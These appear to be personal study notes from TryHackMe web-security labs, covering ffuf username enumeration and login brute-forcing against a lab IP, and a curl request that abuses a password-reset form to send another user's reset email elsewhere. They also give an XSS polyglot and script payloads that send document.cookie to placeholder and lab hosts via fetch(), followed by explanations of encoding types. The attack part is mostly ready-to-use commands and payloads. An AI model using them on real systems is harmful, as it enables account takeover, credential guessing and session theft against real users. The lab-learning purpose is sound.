 # Commands

```powershell

ffuf -w /usr/share/wordlists/SecLists/Usernames/Names/names.txt -X POST -d "username=FUZZ&email=x&password=x&cpassword=x" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.215.241/customers/signup -mr "username already exists"

```

In the above example, the -w argument selects the file's location on the computer that contains the list of usernames that we're going to check exists. The -X argument specifies the request method, this will be a GET request by default, but it is a POST request in our example. The -d argument specifies the data that we are going to send. In our example, we have the fields username, email, password and cpassword. We've set the value of the username to FUZZ. In the ffuf tool, the FUZZ keyword signifies where the contents from our wordlist will be inserted in the request. The -H argument is used for adding additional headers to the request. In this instance, we're setting the Content-Type to the webserver knows we are sending form data. The -u argument specifies the URL we are making the request to, and finally, the -mr argument is the text on the page we are looking for to validate we've found a valid username.

```powershell
# brute force attack
ffuf -w ./HackingPython/THM-WordsList/valid-usernames.txt:W1,./SecLists/Passwords/Common-Credentials/10-million-password-list-top-100.txt:W2 -X POST -d  "username=W1&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.215.241/customers/login -fc 200
```

This ffuf command is a little different to the previous one in Task 2. Previously we used the FUZZ keyword to select where in the request the data from the wordlists would be inserted, but because we're using multiple wordlists, we have to specify our own FUZZ keyword. In this instance, we've chosen W1 for our list of valid usernames and W2 for the list of passwords we will try. The multiple wordlists are again specified with the -w argument but separated with a comma.  For a positive match, we're using the -fc argument to check for an HTTP status code other than 200.

curl 'http://10.10.215.241/customers/reset?email=robert@acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert&email=paolo@customer.acmeitsupport.thm'

## XSS polyglot

```js
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */onerror=alert('THM') )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert('THM')//>\x3e
```
```html
</textarea><script>fetch('http://{URL_OR_IP}?cookie=' + btoa(document.cookie) );</script>
</textarea><script>fetch('http://10.10.10.100/?cookie=' + btoa(document.cookie) );</script>
</textarea><script>fetch('http://ff3eff8746b0e6d2ba0fbfe277f7d9c2.log.tryhackme.tech?cookie=' + btoa(document.cookie) );</script>
```

## Encoding Information

Different type of encoding:

- Plain: Plaintext is what we have before performing any transformations.
- URL: URL encoding is used to make data safe to transfer in the URL of a web request. It involves exchanging characters for their ASCII character code in hexadecimal format, preceded by a percentage symbol (%). Url encoding is an extremely useful method to know for any kind of web application testing.
For example, let's encode the forward-slash character (/). The ASCII character code for a forward slash is 47. This is "2F" in hexadecimal, making the URL encoded forward-slash %2F. We can confirm this with Decoder by typing a forward slash in the input box, then selecting Encode as -> URL:
- HTML: Encoding text as HTML Entities involves replacing special characters with an ampersand (&) followed by either a hexadecimal number or a reference to the character being escaped, then a semicolon (;). For example, a quotation mark has its own reference: &quot;. When this is inserted into a webpage, it will be replaced by a double quotation mark ("). This encoding method allows special characters in the HTML language to be rendered safely in HTML pages and has the added bonus of being used to prevent attacks such as XSS (Cross-Site Scripting).
- Base64: Another widely used encoding method, base64 is used to encode any data in an ASCII-compatible format. It was designed to take binary data (e.g. images, media, programs) and encode it in a format that would be suitable to transfer over virtually any medium. How this works under the hood is not important at this point; however, if you are interested, you can read the maths behind it [here](https://stackabuse.com/encoding-and-decoding-base64-strings-in-python/).
- ASCII Hex: This option converts data between ASCII representation and hexadecimal representation. For example, the word "ASCII" can be converted into the hexadecimal number "4153434949". Each letter in the original data is taken individually and converted from numeric ASCII representation into hexadecimal. For example, the letter "A" in ASCII has a decimal character code of 65. In hexadecimal, this is 41. Similarly, the letter "S" can be converted to hexadecimal 53, and so on.
- Hex, Octal, and Binary: These encoding methods all apply only to numeric inputs. They convert between decimal, hexadecimal, octal (base eight) and binary.
- Gzip: Gzip provides a way to compress data. It is widely used to reduce the size of files and pages before they are sent to your browser. Smaller pages mean faster loading times, which is highly desirable for developers looking to increase their SEO score and avoid annoying their customers. Decoder allows us to manually encode and decode gzip data, although this can be hard to process as it is often not valid ASCII/Unicode.
- Hex Format, Inputting data in ASCII format is great, but sometimes we need to be able to edit our input byte-by-byte. For this, we can use "Hex View" by choosing "Hex" above the decoding options;

## Reference

[](https://crackstation.net/)  
[RCE Payloads](https://github.com/payloadbox/command-injection-payload-list)  

